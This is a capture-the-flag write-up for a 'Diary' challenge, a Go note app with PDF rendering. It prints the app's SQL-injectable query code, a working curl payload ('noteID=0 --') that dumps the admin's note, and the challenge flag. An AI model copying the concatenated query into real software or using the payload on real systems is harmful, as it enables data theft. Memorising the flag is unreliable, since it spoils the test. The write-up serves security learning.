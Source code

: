 # Scan

Scanning the server has 2 ports that has a related webserver running: `23689` and `42069`. There are 2 Diary challenges which are almost identical.

Later it turns out that `42069` belongs to the first challenge.

# Website

It has a website with accounts and note creation. 

![](screenshots/1.png)

The notes are created with markdown syntax.


![](screenshots/2.png)

After creating a note, it can be viewed as pdf.

The flag is stored in the `admin` user's note. 

# PDF generation

The backend is written in go and handling the accounts and notes. The pdf is generated with a markdown to html and html to pdf all inside the go program.

Both the html and pdf generation libraries are quite basic. After chefcking the source code, there seems to be no parsing error or injection vector that could help there. 

# SQL injection

When rendering the notes, there is an option to inject in the noteID field, from directly the query parameters.

```go
func renderNote(w http.ResponseWriter, r *http.Request) {
  //redacted
	noteID := r.URL.Query().Get("noteID")
  //redacted
  go func() {
		var title string
		var content string
		err := db.QueryRow("SELECT title, content FROM notes WHERE id = "+noteID+" AND username = '"+username+"'").Scan(&title, &content)
    //redacted
		pdfBytes, err := renderPDF(title, content)
		queryResult <- struct {
			title     string
			content   string
			pdfBytes  []byte
			queryErr  error
			renderErr error
		}{title, content, pdfBytes, nil, err}
	}()
  //redacted
}

```

Registering as any user and grabbing an auth JWT token, it is possible to dump anyone's notes.

```bash
curl -v -G -X GET -H 'Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFhIiwiZXhwIjoxNzI3NzE3MTI0fQ.FG1U8dHq3La0h19zyGIYEeaka8bYR5dcexHqIa0w-6A' 'http://10.10.1.10:42069/notes/render' --data-urlencode 'noteID=0 --' --output ./flag.pdf
```

![](screenshots/3.png)

The exploit is not working on the other port, this is how you could differentiate which port belongs to which challenge.

# Flag

`CQ24{4nd_Th3rE_1_Th0ughT_r3gEx3s_4r3_s@f3}`